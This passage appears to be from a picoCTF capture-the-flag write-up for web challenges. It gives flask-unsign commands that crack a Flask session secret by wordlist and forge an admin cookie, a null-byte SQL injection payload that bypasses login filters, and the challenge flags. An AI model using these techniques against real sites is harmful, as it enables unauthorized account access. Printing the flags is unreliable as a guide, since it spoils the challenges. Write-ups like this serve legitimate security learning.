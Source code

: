 and then we run our tool

flask-unsign --unsign --wordlist secrets --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZYmNtw.orbE-UiLGLxbpKzB0SI_yCBUhcA'

![](https://miro.medium.com/v2/resize:fit:875/1*MEuzrl173HP7toG2xysWmQ.png)

successfully found in the **fortune,** now let’s create our valid cookie for the admin and sign it using unsign flask

flask-unsign -s -c "{'very_auth': 'snickerdoodle'}" -S fortune

![](https://miro.medium.com/v2/resize:fit:875/1*Zn_W8WplqUBDMZY3pyNGlA.png)

![](https://miro.medium.com/v2/resize:fit:875/1*vT5sgQO3zvndzEZuMll31A.png)

we got the flag: **picoCTF{pwn_4ll_th3_cook1E5_743c20eb}**

# 10: Web Gauntlet 2

![](https://miro.medium.com/v2/resize:fit:875/1*n9LTy7OHlWd86BRDfXJltA.png)

![](https://miro.medium.com/v2/resize:fit:875/1*5A-fFvYkrVANP0msZUB0sg.png)

this time it filtered almost everything, we can bypass the admin filter by the concatenation we did before `ad'||'min'` I found this [Portswigger cheatsheet useful](https://portswigger.net/web-security/sql-injection/cheat-sheet) but after many tries nothing worked for me to comment on the password field, I looked for someone’s solution and found this pretty [one](https://picoctf2021.haydenhousen.com/web-exploitation/web-gauntlet-2) it used the null byte to terminate the query I used Burp Suite to send these data `ad’||’min’%00`

![](https://miro.medium.com/v2/resize:fit:875/1*vAGWktLniJGg5iq9DyZHvA.png)

![](https://miro.medium.com/v2/resize:fit:875/1*9EO9aT8sb_reXGYvkSE0PQ.png)

**picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}**

# 11: Web Gauntlet 3

![](https://miro.medium.com/v2/resize:fit:875/1*aigx4zGmSPrylNsUgCx1rQ.png)

![](https://miro.medium.com/v2/resize:fit:875/1*NfwvwusP4bPAlJBbiXwaIA.png)

same filters but this time there is a character limit, the last payload will work here `ad’||’min’%00`

![](https://miro.medium.com/v2/resize:fit:875/1*KwROp8nUII0vSOeYKbYjiw.png)